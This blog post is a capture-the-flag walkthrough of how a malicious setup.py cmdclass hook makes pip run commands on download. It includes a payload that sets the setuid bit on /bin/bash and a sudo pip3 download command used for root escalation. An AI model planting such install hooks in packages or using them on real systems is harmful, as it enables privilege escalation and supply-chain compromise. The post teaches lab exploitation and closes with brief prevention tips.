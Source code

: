 +++
draft = false
date = 2024-03-31T10:00:00+05:30
title = "Using pip to Run Malicious Commands"
description = "Discover how attackers exploit pip to run malicious commands during Python package installation. Learn techniques for prevention, detection, and secure package management."
slug = "pip-malicious-commands"
authors = ["Sumukh Chitloor"]
keywords = ["python-security", "package-exploit", "pip-security", "code-injection"]
tags = ["security", "python", "pip", "malware", "code-execution"]
externalLink = ""
series = ["Malware Development"]
+++

So, recently I was solving a hacktheboox room OnlyForYou and I got the user flag but I was struggling to get the root flag. User had this previlage to run as sudo.

```bash
(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
``` 

![Sudo pip privilege showing download permission](/images/pip-malicious-blog/pip-exploit.png "Sudo permission to run pip download")

But I had never seen a malicious use of pip before so I started doing research. And I founf some interesting stuffs.


### Python Package
I've never built a python package myself, but there are tons of resources for that. There are different ways to go about it, and the vulnerability exists when using the setup.py variation and when the package is in a .tar.gz. 

In the python package, there is cmdclass in the setup, which causes pip to execute the provided command function upon both download and install of the package.

```bash
cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
```

```bash
def RunCommand():
    os.system("chmod u+s /bin/bash")

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)
```

These are the main parts in the setup.py. When we build the package cmd class executes the `RunInstallCommand()`  which will run the `RunCommand()` and executes the malicious command.

### Building the package
We can go and build the package using 

```bash
python -m build
```

After building the package `./dist` directory will be created containing the wheel and `tar.gz` files. For this demo exploit we are only interesting in the `tar.gz`. file.

Suppose you recently attempted to download or install a Python package using pip. In that case, Python may have provided you with a.whl file. The reason for this is that when developers construct a Python package using, for example, the `pip -m build` command, pip automatically tries to produce a secondary.whl file in addition to the tar.gz file, which is subsequently published to the Python Package manager platform along. When a user downloads or installs this package, PIP will automatically download and install the.whl file to the user's machine. The way wheels function eliminates the need for setup.py execution.

Even though pip prefers wheels over tar.gz files, hackers can nevertheless publish python packages without a.whl file on purpose. When a user downloads a Python package from PyPi, pip will utilize the.whl file first, but will fall back to the tar.gz file if the.whl file is not there.

### Exploitation
![exploitation image](/images/pip-malicious-blog/exploitation.avif "exploitation image")

As I was only allowed to download anything using pip on localserver at port 3000, I added malicious .tar.gz in the repository on the local Gogs' git server. 

When I downloaded that malicious package using pip download, my malicious command was executed

```bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/src/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

after we download this,

![prev esc image](/images/pip-malicious-blog/priv-esc.png "priv esc image")

we escalated our shell as root.


### What can be done about this?
- Prefer packages with wheels, less likely to run malicious setup.py
- Still inspect code if from an untrusted source, wheels are not inherently safe


### Resources
- [create-malicious-python-package](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/#1.-create-malicious-python-package)
